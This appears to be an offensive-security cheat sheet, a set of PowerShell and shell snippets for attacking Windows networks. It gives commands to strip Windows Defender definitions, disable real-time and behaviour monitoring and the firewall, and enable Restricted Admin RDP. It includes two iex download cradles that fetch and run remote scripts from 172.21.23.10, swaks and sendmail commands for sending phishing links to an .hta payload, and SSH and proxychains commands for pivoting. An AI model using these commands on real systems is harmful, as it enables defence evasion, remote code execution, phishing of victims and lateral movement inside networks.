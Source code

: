 ##### Roll-Back Defender Definitions

```powershell
cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all
 
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring " /t REG_DWORD /d 1 /f

REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableBehaviorMonitoring " /t REG_DWORD /d 1 /f

Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true 

NetSh Advfirewall set allprofiles state off 

iex(new-object net.webclient).downloadstring('http://172.21.23.10/defendersdeath.ps1')
iex(new-object net.webclient).downloadstring('http://172.21.23.10/fuckdefender.ps1')

```

##### Restricted Admin RDP

```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin  -Value 0
```

* * *

# Phishing

```powershell
swaks --body 'click me http://192.168.X.X/file.hta' --add-header "Really: 1.0" --add-header "Content-Type: text/html" --header "Subject: Important" -t victim@corp.com -f attacker@corp.com --server 192.168.X.X
```

```powershell
sendmail -f attacker@email.com -t victim@email.com -s 192.168.x.x -u "Subject" -m "body"
```

* * *

# Network Forwarding

##### SSH

```powershell
Local
ssh user@KillaOcean -L 127.0.0.1:5577:127.0.0.1:5577

Remote
ssh user@KillaOcean -R 127.0.0.1:5577:127.0.0.1:22

Dynamic
ssh -NfD 1080 user@KillaOcean

Sock Proxy
proxychains4 nmap 192.168.1.0/24

Login Domain via ssh
proxychains ssh -i tommypriv final\\tommy@172.16.222.184


```
